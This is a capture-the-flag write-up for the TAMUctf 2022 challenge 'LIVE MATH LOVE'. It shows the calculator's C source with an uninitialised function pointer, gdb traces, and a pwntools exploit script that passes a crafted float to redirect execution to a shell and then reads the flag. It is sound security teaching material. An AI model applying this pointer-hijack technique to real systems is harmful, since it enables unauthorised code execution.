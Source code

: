 # LIVE MATH LOVE

> Points: 194  
>  
> Solves: 40

## Description:  
> Author: Lane  
>  
> I made this cool calculator! Hope there's nothing vulnerable in here  
>  
> SNI: live-math-love

## Attachments:  
> live_math_love.zip  
>  
> live_math_love  
>  
> live_math_love.c  
>  
> solver-template.py

## C code:

```c  
#include <stdio.h>  
#include <stdlib.h>

void win()  {  
   system("/bin/sh");  
}

void add() {  
   float a;  
   float b;  
   scanf("%f\n", &a);  
   scanf("%f\n", &b);

   printf("%f\n", a+b);  
}

void sub() {  
   float a;  
   float b;  
   scanf("%f\n", &a);  
   scanf("%f\n", &b);

   printf("%f\n", a-b);  
}

void mult() {  
   float a;  
   float b;  
   scanf("%f\n", &a);  
   scanf("%f\n", &b);

   printf("%f\n",a*b);  
}

void menu() {  
   printf("LIVE MATH LOVE\n");  
   printf("1. Add\n");  
   printf("2. Subtract\n");  
   printf("3. Multiply\n");  
   printf("> ");

   void (*action)();  
   int choice;  
   scanf("%d\n", &choice);

   if (choice == 1) {  
       action = add;  
   } else if (choice == 2) {  
       action = sub;  
   } else if (choice == 3) {  
       action = mult;  
   }

   action();

   menu();  
}

void main() {  
   setvbuf(stdout, NULL, _IONBF, 0);  
   setvbuf(stdin, NULL, _IONBF, 0);  
   setvbuf(stderr, NULL, _IONBF, 0);

   menu();

}  
```

## Analysis:

If Action is set to anything other than 1,2,3, a Segmentation fault will occur
because the action variable is not set.  
```  
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ ./live_math_love  
LIVE MATH LOVE  
1. Add  
2. Subtract  
3. Multiply  
> 4  
1  
Segmentation fault (core dumped)  
```

If we enter `1` as shown below, it will be called to `0x3f800000`.
`0x3f800000` is a floating point value of `1`.  
```c  
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ gdb -q ./live_math_love  
Reading symbols from ./live_math_love...  
(No debugging symbols found in ./live_math_love)  
gdb-peda$ run  
Starting program:
/home/mito/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE/live_math_love  
LIVE MATH LOVE  
1. Add  
2. Subtract  
3. Multiply  
> 1  
0  
1  
0  
1.000000  
LIVE MATH LOVE  
1. Add  
2. Subtract  
3. Multiply  
> 1

Program received signal SIGSEGV, Segmentation fault.  
[----------------------------------registers-----------------------------------]  
RAX: 0x0  
RBX: 0x4013b0 (<__libc_csu_init>:       push   r15)  
RCX: 0x0  
RDX: 0x3f800000  
RSI: 0x31 ('1')  
RDI: 0x7fffffffd9b0 --> 0x7fffffff0030 --> 0x0  
RBP: 0x7fffffffdf00 --> 0x7fffffffdf20 --> 0x7fffffffdf30 --> 0x0  
RSP: 0x7fffffffdee8 --> 0x401338 (<menu+169>:   mov    eax,0x0)  
RIP: 0x3f800000  
R8 : 0x31 ('1')  
R9 : 0x0  
R10: 0x7ffff7f5cac0 --> 0x100000000  
R11: 0x246  
R12: 0x401080 (<_start>:        xor    ebp,ebp)  
R13: 0x7fffffffe020 --> 0x1  
R14: 0x0  
R15: 0x0  
EFLAGS: 0x10293 (CARRY parity ADJUST zero SIGN trap INTERRUPT direction
overflow)  
[-------------------------------------code-------------------------------------]  
Invalid $PC address: 0x3f800000  
```

We can start `/bin/sh` by typing `5.883707532277683e-39` instead of `1` above.
`5.883707532277683e-39` is the value of the floating point format
`struct.unpack('!f', '\x00\x40\x11\x62')[0]` of the address(`0x401162`) of the
win function.

```c  
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ ./live_math_love  
LIVE MATH LOVE  
1. Add  
2. Subtract  
3. Multiply  
> 1  
0  
5.883707532277683e-39  
0  
0.000000  
LIVE MATH LOVE  
1. Add  
2. Subtract  
3. Multiply  
> 1  
$ $  

```

## Exploit code:  
The Exploit code is below.  
```python  
from pwn import *

context(os='linux', arch='amd64')  
#context.log_level = 'debug'

BINARY = './live_math_love'  
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':  
 s = remote("tamuctf.com", 443, ssl=True, sni="live-math-love")  
else:  
 s = process(BINARY)  
  
s.sendlineafter("> ", "1")  
s.sendline("0")  
s.sendline("5.883707532277683e-39") # struct.unpack('!f',
'\x00\x40\x11\x62')[0]  
s.sendline("0")  
s.sendlineafter("> ", "1")

s.interactive()  
```

## Results:  
The execution result is as follows.  
```bash  
mito@ubuntu:~/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE$ python3 solve.py r  
[*] '/home/mito/CTF/TAMUctf_2022/Pwn_LIVE_MATH_LOVE/live_math_love'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Opening connection to tamuctf.com on port 443: Done  
[*] Switching to interactive mode  
$ id  
uid=0(root) gid=0(root) groups=0(root)  
$ ls -l  
total 28  
-rw-r--r-- 1 root root    77 Apr 13 04:56 docker_entrypoint.sh  
-rw-r--r-- 1 root root    20 Apr  9 22:54 flag.txt  
-rwxr-xr-x 1 root root 16904 Apr 13 04:55 live_math_love  
$ cat flag.txt  
gigem{m47h3m461c4l!}  
```

## Reference:

Original writeup
(https://github.com/mito753/CTF/blob/main/2022/TAMUctf_2022/Pwn_LIVE_MATH_LOVE/).
